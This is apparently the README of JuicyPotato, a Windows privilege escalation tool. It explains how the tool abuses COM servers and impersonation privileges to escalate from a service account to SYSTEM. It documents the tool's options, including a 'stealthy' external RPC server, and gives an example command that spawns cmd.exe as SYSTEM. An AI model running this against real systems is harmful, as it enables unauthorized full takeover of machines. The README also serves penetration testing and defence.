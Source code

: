 # Juicy Potato (abusing the golden privileges)
*A sugared version of [RottenPotatoNG][1], with a bit of juice, i.e. **another Local Privilege Escalation tool, from a Windows Service Accounts to NT AUTHORITY\SYSTEM***


## Summary
[RottenPotatoNG][1] and its [variants][6] leverages the privilege escalation chain based on [`BITS`][3] [service](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126
) having the MiTM listener on `127.0.0.1:6666` ad when you have SeImpersonate or SeAssignPrimaryToken privileges. During a Windows build review we found a setup where `BITS` was was intentionally disabled and port `6666` was taken.

We decided to weaponize [RottenPotatoNG][1]: **Say hello to Juicy Potato**.

> For the theory, see [Rotten Potato - Privilege Escalation from Service Accounts to SYSTEM][4] and follow the chain of links and references.

We discovered that, other than `BITS` there are a several COM servers we can abuse. They just need to:
1. be instantiable by the current user, normally a "service user" which has impersonation privileges
2. implement the `IMarshal` interface
3. run as an elevated user (SYSTEM, Administrator, ...)

After some testing we obtained and tested an extensive list of [interesting CLSID's](CLSID/README.md) on several Windows versions.

## Juicy details
JuicyPotato allows you to:

+ **Target CLSID**<br>
_pick any CLSID you want. [Here](CLSID/README.md) you can find the list organized by OS._

+ **COM Listening port**<br>
_define COM listening port you prefer (instead of the marshalled hardcoded 6666)_

+ **COM Listening IP address**<br>
_bind the server on any IP_

+ **Process creation mode**<br>
_depending on the impersonated user's privileges you can choose from:_
   - `CreateProcessWithToken` (needs `SeImpersonate`)
   - `CreateProcessAsUser` (needs `SeAssignPrimaryToken`)
   - `both`


+ **Process to launch**<br>
_launch an executable or script if the exploitation succeeds_

+ **Process Argument**<br>
_customize the launched process arguments_

+ **RPC Server address**<br>
_for a stealthy approach you can authenticate to an external RPC server_

+ **RPC Server port**<br>
_useful if you want to authenticate to an external server and firewall is blocking port `135`..._

+ **TEST mode**<br>
_mainly for testing purposes, i.e. testing CLSIDs. It creates the DCOM and prints the user of token. See [here for testing](Test/README.md)_


## Usage

```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```


## Example

```
T:\>JuicyPotato.exe -t * -p c:\Windows\System32\cmd.exe -l 31337

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 31337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```


## Final thoughts
If the user has `SeImpersonate` or `SeAssignPrimaryToken` privileges then you are **SYSTEM**.

It's nearly impossible to prevent the abuse of all these COM Servers. You could think to modify the permissions of these objects via `DCOMCNFG` but good luck, this is gonna be challenging.

The actual solution is to protect sensitive accounts and applications which run under the `* SERVICE` accounts.
Stopping `DCOM` would certainly inhibit this exploit but could have a serious impact on the underlying OS.

## Authors
- [Andrea Pierini](https://twitter.com/decoder_it)
- [Giuseppe Trotta](https://twitter.com/Giutro)

## References

* [Rotten Potato - Privilege Escalation from Service Accounts to SYSTEM][4]
* [Windows: DCOM DCE/RPC Local NTLM Reflection Elevation of Privilege][5]
* [Potatoes and Tokens](https://decoder.cloud/2018/01/13/potato-and-tokens/)
* [The lonely Potato](http://decoder.cloud/2017/12/23/the-lonely-potato/)
* [Social Engineering the Windows Kernel by James Forshaw](https://www.slideshare.net/Shakacon/social-engineering-the-windows-kernel-by-james-forshaw)

[1]: https://github.com/breenmachine/RottenPotatoNG
[2]: https://decoder.cloud/2017/12/23/the-lonely-potato/
[3]: https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799(v=vs.85).aspx
[4]: https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
[5]: https://bugs.chromium.org/p/project-zero/issues/detail?id=325&redir=1
[6]:https://github.com/decoder-it/lonelypotato
